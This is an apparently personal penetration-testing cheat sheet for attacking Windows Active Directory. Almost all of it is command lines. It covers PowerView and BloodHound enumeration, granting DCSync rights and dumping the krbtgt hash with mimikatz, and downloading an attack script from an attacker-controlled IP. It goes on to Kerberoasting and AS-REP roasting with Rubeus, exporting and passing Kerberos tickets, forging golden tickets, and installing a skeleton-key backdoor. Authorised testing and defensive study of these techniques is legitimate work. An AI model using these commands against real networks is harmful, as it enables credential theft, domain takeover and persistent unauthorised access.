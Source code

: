 # Resources

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview  

https://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/

https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/

### [PowerView.ps1]

https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
```
get-aduser <username>
Get-NetDomain
```

### [Sharphound to extract active directory objects]
https://github.com/BloodHoundAD/SharpHound

```
Invoke-Bloodhound -CollectionMethod All -Domain domain.local -ZipFileName file.zip
```

### [Dumping credentials from the domain controller with DCSync]

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync


1. Import the module
```
import-module .\PowerView.ps1
```

2. Add DCSync rights to user
```
Add-ObjectACL PrincipalIdentity user -Rights DCSync
```

3. Import Active Directory
```
Import-Module ActiveDirectory
```

4. Retrieve the permissions for user
```
(Get-Acl "ad:\dc=DOMAIN,dc=COM").Access | ? {$_.IdentityReference -match 'user' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

5. Use mimikatz to dump credentials
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

```
lsadump::dcsync /user:krbtgt
```

### Kerberoast
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```
Invoke-WebRequest -Uri 'http://10.6.86.172/Invoke-Kerberoast.ps1' -OutFile 'Invoke-Kerberoast.ps1'

Invoke-Kerberoast -OutputFormat hashcat |fl
Invoke-Kerberoast -OutputFormat hashcat | Select-Object Hash -ExpandProperty hash


Rubeus.exe kerberoast
Rubeus.exe asreproast

dumps tickets containing the hashes hashes for all accounts:

mimikatz.exe

privilege::debug

sekurlsa::tickets /export

Impersonate their tickets

kerberos::ptt <ticket>

This will the hash and security identifier needed to create a golden ticket.

lsadump::lsa /inject /name:username

Generating the golden/silver ticket:

Kerberos::golden /user:<username> /domain:controller.local /sid:<SID> /krbtgt:<NTLM> /id:<ID>

Create a backdoor

misc::cmd
misc::skeleton
```
